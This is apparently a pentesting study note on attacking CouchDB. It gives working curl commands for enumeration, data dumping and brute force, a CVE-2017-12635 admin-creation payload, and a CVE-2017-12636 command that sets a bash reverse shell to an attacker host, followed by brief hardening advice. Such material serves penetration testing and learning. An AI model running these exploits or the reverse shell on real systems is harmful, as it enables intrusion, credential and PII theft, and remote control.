

# 16 - CouchDB (Port 5984) Pentesting

## 1. Executive Summary

Apache CouchDB is a document NoSQL database with an **HTTP/REST API on TCP 5984** (HTTPS 6984). Everything is a JSON HTTP request, so `curl` is the only tool you need. Key issues: anonymous/admin-party access, weak creds, the famous **privilege escalation CVE-2017-12635** (duplicate-key role injection) chained with **CVE-2017-12636** (config-based RCE), and bulk data exfiltration.

## 2. Protocol Overview

RESTful: `GET /` (version), `GET /_all_dbs`, `GET /<db>/_all_docs`. Admin functions under `/_config`, `/_users`, `/_node/...`. In "admin party" mode (no admins defined) anyone is admin.

## 3. Enumeration

```bash
nmap -sV --script couchdb-databases,couchdb-stats -p5984 <IP>
curl http://<IP>:5984/                 # version
curl http://<IP>:5984/_all_dbs
curl http://<IP>:5984/_membership
curl http://<IP>:5984/_node/_local/_config   # config (auth may be needed)
```

## 4. Exploitation

### 4.1 Read Data (anonymous / weak creds)
```bash
curl http://<IP>:5984/<db>/_all_docs?include_docs=true
hydra -L users.txt -P pass.txt http-get://<IP>:5984/_all_dbs   # brute
```

### 4.2 Privilege Escalation — CVE-2017-12635
A JSON parser discrepancy lets a non-admin create an admin user by sending duplicate `roles` keys:
```bash
curl -X PUT http://<IP>:5984/_users/org.couchdb.user:hacker \
  -H "Content-Type: application/json" \
  -d '{"type":"user","name":"hacker","password":"pass","roles":["_admin"],"roles":[]}'
```

### 4.3 RCE — CVE-2017-12636 (chained)
As admin, set the query server config to an OS command and trigger it:
```bash
curl -X PUT http://<IP>:5984/_node/couchdb@localhost/_config/query_servers/cmd \
  -d '"/bin/bash -c \"bash -i >& /dev/tcp/<ATT>/4444 0>&1\""'
# create a doc + temp view that invokes the 'cmd' query server -> shell
```

## 5. Mermaid Attack Flow


## 6. Post-Exploitation
- Bulk-dump all DBs (creds, PII).
- RCE runs as the `couchdb` user → local privesc pivot.

## 7. Defense & Hardening
1. Define admins (exit admin party); strong creds; require auth.
2. Patch ≥ 2.1.1 / 1.7.0 (CVE-2017-12635/12636).
3. Bind to internal interface; firewall 5984/6984; TLS.

## 8. Chaining Opportunities
- 12635 → 12636 is the canonical anon-to-RCE chain.
- `couchdb` shell → **[[08 - Linux Privilege Escalation]]**.

## 9. Related Notes
- [[14 - MongoDB (Ports 27017-27018) Pentesting]]
- [[18 - Elasticsearch (Port 9200) Pentesting]]

## 10. Tools
`curl`, `nmap` couchdb-*, `hydra`, `metasploit` couchdb modules.
